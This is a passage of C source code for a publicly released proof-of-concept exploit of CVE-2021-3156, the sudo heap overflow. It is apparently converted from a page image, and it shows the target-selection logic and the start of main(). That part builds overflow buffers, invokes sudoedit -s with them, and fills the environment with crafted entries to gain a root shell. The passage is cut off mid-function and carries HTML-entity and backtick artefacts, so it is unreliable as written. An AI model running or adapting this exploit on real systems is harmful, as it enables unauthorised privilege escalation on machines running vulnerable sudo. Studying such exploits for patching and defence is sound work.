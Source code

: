 ```
        .lc_all_len     = 214
    `}`
`}`;

void usage(char *prog) `{`
    printf("  usage: %s &lt;target&gt;\n\n", prog);
    printf("  available targets:\n");
    printf("  ------------------------------------------------------------\n");
    for(int i = 0; i &lt; sizeof(targets) / sizeof(target_t); i++) `{`
        printf("    %d) %s\n", i, targets[i].target_name);
    `}`
    printf("  ------------------------------------------------------------\n");
    printf("\n");
`}`

int main(int argc, char *argv[]) `{`
    printf("\n** CVE-2021-3156 PoC by blasty &lt;peter@haxx.in&gt;\n\n");

    if (argc != 2) `{`
        usage(argv[0]);
        return -1;
    `}`

    int target_idx = atoi(argv[1]);

    if (target_idx &lt; 0 || target_idx &gt;= (sizeof(targets) / sizeof(target_t))) `{`
        fprintf(stderr, "invalid target index\n");
        return -1;
    `}`

    target_t *target = &amp;targets[ target_idx ];

    printf("using target: '%s'\n", target-&gt;target_name);

    char *smash_a = calloc(target-&gt;smash_len_a + 2, 1);
    char *smash_b = calloc(target-&gt;smash_len_b + 2, 1);

    memset(smash_a, 'A', target-&gt;smash_len_a);
    memset(smash_b, 'B', target-&gt;smash_len_b);

    smash_a[target-&gt;smash_len_a] = '\\';
    smash_b[target-&gt;smash_len_b] = '\\';

    char *s_argv[]=`{`
        // "sudoedit", "-s", smash_a, "\\", NULL
        // "sudoedit", "-s", smash_a, NULL
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    `}`;

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i &lt; (0x2b6); i++) `{`
        s_envp[envp_pos++] = "\\";
    `}`
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    int lc_len = 0x20;
    int lc_num = 2;

    int i = 0;
    char *temp=NULL;

```